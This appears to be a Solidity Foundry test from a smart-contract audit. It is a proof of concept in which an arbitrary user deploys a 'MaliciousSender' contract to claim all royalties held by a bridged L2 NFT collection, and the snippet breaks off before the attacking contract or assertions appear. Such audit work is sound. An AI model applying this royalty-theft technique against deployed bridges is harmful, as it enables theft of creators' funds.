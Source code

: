 ```solidity
    Test20 USDC;

    event BridgeStarted(address _destination, IInfernalPackage.Package[] package, address _recipient);

    function setUp() public {

        /**
          - Deploy rift above
          - Deploy rift below
          - Deploy ERC721Brigable template and set with rift below
          - Set rift below to use ERC721Bridgable
          - Set rift above to use rift below
          - Everything now immutable
         */

        USDC = new Test20('USDC', 'USDC', 18);
        l1NFT = new Test721();
        l1NFT1155 = new Test1155('https://address.com/token/');
        mockPortalAndMessenger = new MockPortalAndCrossDomainMessenger();
        mockRoyaltyRegistry = new MockRoyaltyRegistry();
        riftAbove = new InfernalRiftAbove(
            address(mockPortalAndMessenger),
            address(mockPortalAndMessenger),
            address(mockRoyaltyRegistry)
        );
        riftBelow = new InfernalRiftBelow(
            address(mockPortalAndMessenger), // pretend the portal *is* the relayer
            address(mockPortalAndMessenger),
            address(riftAbove)
        );
        erc721Template = new ERC721Bridgable('Test', 'T721', address(riftBelow));
        erc1155Template = new ERC1155Bridgable(address(riftBelow));
        riftBelow.initializeERC721Bridgable(address(erc721Template));
        riftBelow.initializeERC1155Bridgable(address(erc1155Template));
        riftAbove.setInfernalRiftBelow(address(riftBelow));
    }

    function testAnybodyCanClaimRoyalties() public {
        // transfer NFT collection from L1 to L2
        _bridgeNft(address(this), address(l1NFT), 0);

        // add some royalties to L2 collection
        address l2NFTAddress = riftBelow.l2AddressForL1Collection(address(l1NFT), false);
        deal(l2NFTAddress, 1 ether);

        // prepare a malicious user
        address anyUser = address(1);

        console.log('===before===');
        console.log('Balance ETH (L2 collection):', l2NFTAddress.balance);
        console.log('Balance ETH (anyUser):', anyUser.balance);

        /**
         * 1. `anyUser` deploys the `MaliciousSender` contract
         * 2. `anyUser` calls `MaliciousSender.run()` which claims all available collection royalties
         */
        vm.startPrank(anyUser);
        MaliciousSender maliciousSender = new MaliciousSender(riftBelow);
        address[] memory tokens = new address[](2);
        tokens[0] = address(0);
        maliciousSender.run(address(l1NFT), anyUser, tokens);
```